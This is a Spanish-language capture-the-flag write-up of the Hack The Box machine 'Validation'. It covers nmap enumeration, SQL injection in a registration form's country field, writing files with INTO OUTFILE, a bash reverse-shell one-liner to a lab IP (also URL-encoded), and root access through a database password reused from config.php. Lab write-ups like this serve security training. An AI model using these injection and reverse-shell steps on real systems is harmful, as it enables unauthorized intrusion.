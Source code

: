 ```yaml
---
title: "HTB - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/validation.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: ipsec
  level: Fácil
  date: 13 Septiembre 2021
  point: 20
---
```


## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.11.116 solo encontramos que está abierto el 80 (web),22 (SSH),8080,4566
```
# Nmap 7.92 scan initiated Wed Aug  3 11:19:23 2022 as: nmap -p22,80,4566,8080 -sCV -O -oN nmap/NMAP validation.htb
Nmap scan report for validation.htb (10.10.11.116)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug  3 11:19:45 2022 -- 1 IP address (1 host up) scanned in 22.46 seconds
```

Empezamos a enumerar directorios e interactuamos con la web, usando nmap –script=http-enum, y solo encuentra account.php. No se encuentra nada más y solo podemos interactuar con la web.

![Validation 1](/assets/images/post/2022/validation1.png)

Al registrarnos en la web nos damos cuenta de que envía un usuario y un país, el cual luego nos muestra nuestro usuario para el país que se eligió. Entre más usuarios registramos a la web más se muestra en la web como usuario, es por ello por lo que podemos pensar que la aplicación puede hacer un INSERT a una base de datos y luego genera un SELECT con el WHERE al país seleccionado. Probamos un SQL injection tanto en el usuario y en el país, y nos percatamos que en la variable country es vulnerable.

Probamos enumerar información importante en la Base de Datos (nombre de base de datos, tablas, usuarios). Descubrimos que la Base de datos que se utiliza es Maria DB 10.5.11

## 1° Shell

Mientras se prueba el SQL injection descubrimos que la web está en /var/www/html, además podemos crear archivos con el SELECT “<CONTENIDO DEL ARCHIVO>” INTO OUTFILE “<RUTA ESPECIFICA DEL ARCHIVO>» y esto nos genera un archivo en la ruta especificada.

Con este pagina creada podemos crear una Shell reversa con el siguiente bash -c ‘bash -i>& /dev/tcp/10.10.14.12/4444 0>&1’ al tratar de ejecutar no nos carga la Shell reversa, es por ello que codificamos el comando en URL ENCODE %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%34%34%34%34%20%30%3e%26%31%27, y nos carga la Shell (esto pasa por que el navegador debe codificar el dato antes de enviarlo).

## 2° SHELL (root)

Revisando con el www-data vemos que no hay usuario para el sistema, pero en /var/www/html hay un archivo config.php con usuario y contraseña (uhc:uhc-9qual-global-pw) para conectarse localmente a la máquina, probamos esta clave con el usuario root.

![Racso](https://www.hackthebox.com/badge/image/159593)